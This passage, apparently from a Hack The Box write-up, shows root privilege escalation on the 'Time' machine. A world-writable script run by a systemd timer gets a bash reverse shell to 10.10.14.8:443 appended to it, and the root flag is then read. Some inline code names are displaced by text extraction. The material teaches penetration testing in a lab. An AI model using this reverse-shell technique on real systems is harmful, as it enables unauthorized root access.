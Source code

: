 
This timer was last run four seconds ago and was going to run again in five seconds. On HTB machines, any timer less than five minutes is worth looking at.

### timer\_backup

The service will be defined in a file in :`/etc/systemd`

    pericles@time:/$ find /etc/systemd/ -name timer_backup.service
    /etc/systemd/system/timer_backup.service
    

That file is relatively simple:

    [Unit]
    Description=Calls website backup
    Wants=timer_backup.timer
    WantedBy=multi-user.target
    
    [Service]
    ExecStart=/usr/bin/systemctl restart web_backup.service
    

The and describes the relation of this service to others as far as starting. describes what it runs. In this case, it’s just restarting another service, . That config:`Wants``WantedBy``ExecStart``web_backup.service`

    [Unit]
    Description=Creates backups of the website
    
    [Service]
    ExecStart=/bin/bash /usr/bin/timer_backup.sh
    

It’s running , a shell script, which is writable:`/usr/bin/timer_backup.sh`

    pericles@time:/$ ls -l /usr/bin/timer_backup.sh
    -rwxrw-rw- 1 pericles pericles 88 Feb  9 22:15 /usr/bin/timer_backup.sh
    

### Initial Shell

I’ll add a reverse shell to the end of the script:

    pericles@time:/$ echo -e '\nbash -i >& /dev/tcp/10.10.14.8/443 0>&1' >> /usr/bin/timer_backup.sh
    

Very quickly, I’ve got a root shell at :`nc`

    oxdf@parrot$ sudo nc -lnvp 443
    listening on [any] 443 ...                                     
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.214] 58304
    bash: cannot set terminal process group (65912): Inappropriate ioctl for device
    bash: no job control in this shell                        
    root@time:/#
    

However, the shell dies after like 10 seconds. That’s plenty to get the flag:

    root@time:/# cd root
    root@time:/root# cat root.txt
    ecb18a98************************
    